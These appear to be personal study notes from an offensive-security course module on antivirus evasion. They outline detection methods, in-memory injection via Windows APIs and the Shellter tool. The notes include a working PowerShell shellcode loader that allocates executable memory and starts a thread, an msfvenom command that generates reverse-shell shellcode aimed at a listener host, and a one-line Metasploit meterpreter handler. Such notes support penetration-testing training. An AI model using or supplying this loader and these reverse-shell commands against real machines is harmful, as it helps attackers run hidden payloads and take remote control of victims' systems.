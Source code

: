 # Module 14: Antivirus Evasion

## Antivirus Software Key Components and Operations

### Known vs Unknown Threats

### AV Engines and Components

### Detection Methods

* Signature-based Detection
  * Considered a _restricted list technology_. Can be a hash, specific values, strings, etc.
* Heuristic-based Detection
  * Various rules and algorithms determine whether an action is considered malicious. Often by stepping through the instruction set of the binary.
* Behavioral Detection
  * Analyzing the behavior, often by executing the file in an emulated environment, searching for behaviors/actions that are considered malicious.
* Machine Learning Detection
  * Introducing ML algorithms to detect unknown threats by collecting and analyzing additional metadata.

## Bypassing Antivirus Detections

### On-Disk Evasion

Highly effecting AV evasion requires a combination of packers, obfuscators, crypters, anti-reversing, anti-debuffing, virtual machine emulation detection, and so on. Software protectors were designed for legit purposes, like _anti-copy_ but can also be used for AV evasion.

### In-Memory Evasion

_In-Memory Injections_ also known as _PE Injections_ are great for bypassing AV. It doesn't write to disk. \
_Remote Process Memory Injection_ - injecting a payload into a valid, non-malicious PE. This can be done via _Windows APIs:_

1. _OpenProcess_ to obtain a handle.
2. _VirtualAllocEx_ to allocate memory in the context of that process.
3. _WriteProcessMemory_ to copy the malicious payload to newly allocated memory.
4. _CreateRemoteThread_ to execute it.

## AV Evasion in Practice

### Testing for AV Evasion

VirusTotal: Submitting samples to see how AV detects it. This provides the sample to the partners though.\
AntiScan.me: Supposedly does not share samples; tests with 30 AVs and has four free scans per day.

### Evading AV with Thread Injection

A basic templated script that performs in-memory injection is shown below, shellcode could be generated via `msfvenom -p windows/shell_reverse_tcp LHOST=your.listener.ip.here LPORT=port -f powershell -v sc`:

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Automating the Process

_**Shellter**_ is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing AV. Ensure architecture **i386** is added and that **wine32** is installed. Then you can run `shellter`.\
Shellter can run in either _Auto_ or _Manual_ mode.

Manual: The tool will launch the PE we want to use for injection and allow us to manipulate it on a more granular level.\
Auto: The tool will automatically attempt to fully inject the malicious code into the PE.\
Stealth: attempt to restore the execution flow of the PE after our payload has been executed.

Kicking off a meterpreter listener in one line: `msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST your.listener.ip.here;set LPORT port;run;"`
